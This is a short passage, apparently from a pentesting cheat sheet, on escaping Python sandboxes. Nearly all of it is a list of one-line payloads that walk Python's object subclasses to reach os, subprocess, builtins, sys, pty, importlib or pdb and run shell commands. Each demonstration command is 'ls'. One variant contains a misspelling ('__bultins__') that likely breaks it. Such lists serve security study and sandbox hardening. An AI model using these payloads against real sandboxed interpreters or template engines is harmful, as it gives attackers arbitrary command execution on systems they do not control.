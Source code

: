 There are a lot, and **we just need one** to execute commands:

```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
```

We can do the same thing with **other libraries** that we know can be used to **execute commands**:

```python
#os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" in x.__init__.__globals__ ][0]["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" == x.__init__.__globals__["__name__"] ][0]["system"]("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'os." in str(x) ][0]['system']('ls')

#subprocess
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "subprocess" == x.__init__.__globals__["__name__"] ][0]["Popen"]("ls")
[ x for x in ''.__class__.__base__.__subclasses__() if "'subprocess." in str(x) ][0]['Popen']('ls')
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__ == 'Popen' ][0]('ls')

#builtins
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "__bultins__" in x.__init__.__globals__ ]
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__("os").system("ls")

#sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"].system("ls")

#commands (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "commands" in x.__init__.__globals__ ][0]["commands"].getoutput("ls")

#pty (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pty" in x.__init__.__globals__ ][0]["pty"].spawn("ls")

#importlib
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].__import__("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].__import__("os").system("ls")

#pdb
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pdb" in x.__init__.__globals__ ][0]["pdb"].os.system("ls")
```
